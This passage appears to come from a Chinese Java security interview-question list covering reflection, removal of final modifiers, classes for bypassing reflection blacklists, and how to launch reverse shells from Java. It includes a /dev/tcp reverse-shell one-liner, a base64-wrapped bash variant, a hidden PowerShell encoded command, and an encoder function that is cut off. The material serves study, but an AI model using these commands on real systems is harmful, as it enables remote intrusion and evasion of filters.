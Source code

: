 ## JDK

### Java反射做了什么事情（★）[+]

反射是根据字节码获得类信息或调用方法。从开发者角度来讲，反射最大的意义是提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果



### Java反射可以修改Final字段嘛（★★）[+]

可以做到，参考以下代码

```java
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(null, newValue);
```



### 传统的反射方法加入黑名单怎么绕（★★★）[+]

可以使用的类和方法如下（参考三梦师傅）

```java
ClassLoader.loadClass
ReflectUtil.forName
BytecodeDescriptor
sun.reflect.misc.MethodUtil
sun.reflect.misc.FieldUtil
sun.reflect.misc.ConstructorUtil
MethodAccessor.invoke
JSClassLoader.invoke
JSClassLoader.newInstance
```



### Java中可以执行反弹shell的命令吗（★★）[+]

可以执行，但需要对命令进行特殊处理。例如直接执行这样的命令：`bash -i >& /dev/tcp/ip/port 0>&1`会失败，简单来说因为`>`符号是重定向，如果命令中包含输入输出重定向和管道符，只有在`bash`下才可以，使用Java执行这样的命令会失败，所以需要加入`Base64`

```shell
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
```

针对`Powershell`应该使用以下的命令

```shell
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
```

这个特殊的Base64和普通Base64不同，需要填充0，算法如下

```java
public static String getPowershellCommand(String cmd) {
    char[] chars = cmd.toCharArray();
    List<Byte> temp = new ArrayList<>();
    for (char c : chars) {
        byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
        for (byte b : code) {
            temp.add(b);
        }
        temp.add((byte) 0);
    }
    byte[] result = new byte[temp.size()];
    for (int i = 0; i < temp.size(); i++) {
        result[i] = temp.get(i);
```